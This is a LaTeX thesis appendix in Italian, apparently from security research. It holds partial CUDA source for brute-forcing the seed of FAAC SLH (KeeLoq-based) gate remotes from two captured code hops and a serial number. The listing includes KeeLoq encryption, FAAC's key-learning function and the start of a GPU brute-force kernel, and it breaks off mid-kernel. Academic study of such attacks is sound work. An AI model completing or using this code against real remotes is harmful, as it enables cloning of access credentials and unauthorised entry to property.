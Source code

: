 \chapter{Brute-forcer del seed di FAAC SLH in CUDA}
\label{appendix:cuda}

Di seguito è riportato il codice in CUDA dell'algoritmo di brute forcing del seed di FAAC SLH. Tale algoritmo assume che due chiavi normali in sequnza siano state catturate e prende in input i due code hop e il serial intercettati.
\begin{lstlisting}[language=C++,basicstyle=\small,showstringspaces=false]
#include <cstdlib>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <stdbool.h>
#include <cuda_runtime.h>

#define MFKEY 0xFFFFFFFFFFFFFFFF
#define KEELOQ_NLF 0x3A5C742E
#define bit(x, n) (((x) >> (n)) & 1)
#define g5(x, a, b, c, d, e) (bit(x, a) + bit(x, b) * 2 + \\
          bit(x, c) * 4 + bit(x, d) * 8 + bit(x, e) * 16)

__device__ uint32_t keeloq_encrypt_device(uint32_t data, uint64_t key) {
    uint32_t x = data;
    for (int r = 0; r < 528; r++) {
        x = (x >> 1) ^ ((bit(x, 0) ^ bit(x, 16) ^ (uint32_t)bit(key, r & 63) ^
                         bit(KEELOQ_NLF, g5(x, 1, 9, 20, 26, 31))) << 31);
    }
    return x;
}

__device__ uint64_t faac_learning_device(uint32_t seed, uint64_t key) {
    uint16_t hs = seed >> 16;
    const uint16_t ending = 0x544D;
    uint32_t lsb = (uint32_t)hs << 16 | ending;
    uint64_t man = (uint64_t)keeloq_encrypt_device(seed, key) << 32 |
                             keeloq_encrypt_device(lsb, key);
    return man;
}

struct Result {
    bool found;
    uint32_t seed;
    uint32_t count;
};

__global__ void find_sequence_chunk_kernel(
    uint32_t first_hop,
    uint32_t second_hop,
    uint64_t mfkey,
    uint32_t fix,
    uint32_t start_seed,
    uint32_t end_seed,
    Result *result) {
    uint32_t seed = blockIdx.x * blockDim.x + threadIdx.x + start_seed;
    if (seed > end_seed || result->found) return;

    uint64_t man = faac_learning_device(seed, mfkey);
    uint8_t fixx[8];
    int shiftby = 32;
    for (int i = 0; i < 8; i++) {
        fixx[i] = (fix >> (shiftby -= 4)) & 0xF;
    }

    uint32_t prev_hop = keeloq_encrypt_device(fixx[6] << 28 |
                        fixx[7] << 24 | fixx[5] << 20 | 0xFFFFF, mfkey);


\end{lstlisting}
